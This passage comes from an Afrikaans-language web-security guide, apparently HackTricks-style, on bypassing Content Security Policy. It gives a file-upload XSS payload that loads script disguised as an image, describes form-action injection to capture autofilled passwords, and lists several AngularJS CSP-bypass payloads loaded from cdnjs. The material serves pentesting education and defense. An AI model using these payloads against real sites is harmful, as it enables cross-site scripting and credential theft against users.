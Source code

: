 Werkende payload:
```markup
"/>'><script src="/uploads/picture.png.js"></script>
```
Dit is egter hoogs waarskynlik dat die bediener **die opgelaaide lêer valideer** en slegs 'n **bepaalde tipe lêers** sal toelaat om opgelaai te word.

Boonop, selfs al kon jy 'n **JS-kode binne** 'n lêer opgelaai met 'n uitbreiding wat deur die bediener aanvaar word (soos: _script.png_), sal dit nie genoeg wees nie, omdat sommige bedieners soos die apache bediener **die MIME-tipe van die lêer op grond van die uitbreiding kies** en blaaiers soos Chrome sal **weier om Javascript**-kode binne iets wat 'n beeld behoort te wees, uit te voer. "Hopelik", is daar foute. Byvoorbeeld, van 'n CTF het ek geleer dat **Apache nie weet** van die _**.wave**_ uitbreiding nie, daarom bedien dit dit nie met 'n **MIME-tipe soos audio/\*** nie.

Van hier af, as jy 'n XSS en 'n lêeroplaai vind, en jy slaag daarin om 'n **misverstandige uitbreiding** te vind, kan jy probeer om 'n lêer met daardie uitbreiding en die inhoud van die skrip op te laai. Of, as die bediener die korrekte formaat van die opgelaaide lêer nagaan, skep 'n polyglot ([sommige polyglot voorbeelde hier](https://github.com/Polydet/polyglot-database)).

### Form-action

As dit nie moontlik is om JS in te voeg nie, kan jy steeds probeer om byvoorbeeld akrediteer te eksfiltreer deur **'n vorm aksie in te voeg** (en dalk verwag dat wagwoordbestuurders wagwoorde outomaties invul). Jy kan 'n [**voorbeeld in hierdie verslag**](https://portswigger.net/research/stealing-passwords-from-infosec-mastodon-without-bypassing-csp) vind. Let ook daarop dat `default-src` nie vorm aksies dek nie.

### Derdeparty-eindpunte + ('unsafe-eval')

> [!WARNING]
> Vir sommige van die volgende payloads **is `unsafe-eval` selfs nie nodig nie**.
```yaml
Content-Security-Policy: script-src https://cdnjs.cloudflare.com 'unsafe-eval';
```
Laai 'n kwesbare weergawe van angular en voer arbitrêre JS uit:
```xml
<script src="https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.4.6/angular.js"></script>
<div ng-app> {{'a'.constructor.prototype.charAt=[].join;$eval('x=1} } };alert(1);//');}} </div>


"><script src="https://cdnjs.cloudflare.com/angular.min.js"></script> <div ng-app ng-csp>{{$eval.constructor('alert(1)')()}}</div>


"><script src="https://cdnjs.cloudflare.com/angularjs/1.1.3/angular.min.js"> </script>
<div ng-app ng-csp id=p ng-click=$event.view.alert(1337)>


With some bypasses from: https://blog.huli.tw/2022/08/29/en/intigriti-0822-xss-author-writeup/
<script/src=https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.0.1/angular.js></script>
<iframe/ng-app/ng-csp/srcdoc="
<script/src=https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.8.0/angular.js>
</script>
<img/ng-app/ng-csp/src/ng-o{{}}n-error=$event.target.ownerDocument.defaultView.alert($event.target.ownerDocument.domain)>"
>
```
#### Payloads wat Angular gebruik + 'n biblioteek met funksies wat die `window` objek teruggee ([kyk na hierdie pos](https://blog.huli.tw/2022/09/01/en/angularjs-csp-bypass-cdnjs/)):

